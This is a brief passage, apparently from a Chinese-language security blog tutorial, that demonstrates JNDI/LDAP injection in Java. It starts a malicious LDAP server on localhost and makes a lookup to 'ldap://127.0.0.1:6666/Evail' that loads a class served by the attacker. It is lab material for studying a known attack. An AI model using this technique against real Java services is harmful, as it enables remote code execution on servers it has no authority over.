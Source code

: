 然后传进 ldapserver

```plain
java -jar LDAPServer.jar 127.0.0.1 1.txt
```

[![](assets/1708870136-e8c2230f8729f3edc80fcc91e0eaff0a.png)](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121936.png)​

然后直接去 JNDI 查询

```plain
SayHello sayHello = (SayHello)initialContext.lookup("ldap://127.0.0.1:6666/Evail");
```

[![](assets/1708870136-8733b5c787f9f44eca2a0653f113c648.png)](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121512.png)​
